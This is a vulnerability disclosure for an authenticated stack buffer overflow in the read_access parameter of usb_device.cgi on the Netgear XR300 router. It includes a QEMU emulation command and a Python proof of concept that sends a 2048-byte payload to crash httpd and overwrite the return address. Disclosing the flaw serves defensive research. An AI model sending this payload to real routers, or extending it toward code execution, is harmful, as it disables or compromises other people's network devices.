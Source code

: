 ## buffer overflow in read_access of usb_device.cgi



**Affected Product**: Netgear XR300 Router

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**Official Firmware Resources** :(https://support.netgear.cn/doucument/detail.asp?id=2466)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `read_access` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `read_access` input is copied to buffer `v47` using `strcpy` without proper bounds checking.
3. The `v50` buffer is only **96  bytes** in size.
4. The service permits `read_access` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.

![image-20250529101504226](../res/image-20250529101504226-17484849059153.png)

![image-20250529101551258](../res/image-20250529101551258-17484849534034.png)



#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`



![image-20250524123945917](../res/image-20250524123945917-17480615941411.png)





#### 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "read_access": payload,
    "remote_api" : "AAA"
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v50` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

![image-20250529101207785](../res/image-20250529101207785-17484847291031.png)



![image-20250529101250218](../res/image-20250529101250218-17484847715232.png)